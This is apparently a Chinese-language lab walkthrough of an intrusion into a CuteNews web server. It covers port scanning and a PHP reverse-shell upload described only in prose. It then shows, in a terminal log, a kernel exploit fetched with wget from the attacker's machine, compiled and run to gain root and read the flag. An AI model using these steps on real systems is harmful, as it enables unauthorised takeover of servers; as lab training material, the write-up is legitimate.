



## 端口扫描
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999  -p- 10.10.10.28              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-09 07:23 EST
Nmap scan report for 10.10.10.28
Host is up (0.0011s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:F2:4D:FE (VMware)
```
发现只有一个80端口

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p  80 10.10.10.28    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-09 07:25 EST
Nmap scan report for 10.10.10.28
Host is up (0.00049s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Please Login / CuteNews
MAC Address: 00:0C:29:F2:4D:FE (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.61 seconds
```
## web渗透

看到有cms版本信息
搜一下

看到攻击方法
那应该没什么难度了

这里直接上传php反弹shell
访问即可收到shell

## 提权
这里经过了大量枚举后也是没思路了
用linpeas跑一下

看到脏牛漏洞
试一下吧
```bash
www-data@simple:/tmp$ wget http://10.10.10.15:9999/37292.c
wget http://10.10.10.15:9999/37292.c
--2024-03-09 08:05:44--  http://10.10.10.15:9999/37292.c
Connecting to 10.10.10.15:9999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/x-csrc]
Saving to: '37292.c'

100%[======================================>] 4,968       --.-K/s   in 0s      

2024-03-09 08:05:44 (998 MB/s) - '37292.c' saved [4968/4968]

www-data@simple:/tmp$ gcc 37292.c -o 37292
gcc 37292.c -o 37292
www-data@simple:/tmp$ ./37292
./37292
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
whoami
root
# ls /root
ls /root
flag.txt
# cat /root/flag.txt
cat /root/flag.txt
U wyn teh Interwebs!!1eleven11!!1!
Hack the planet!
```
并不是利用脏牛漏洞，而是另一个内核漏洞:(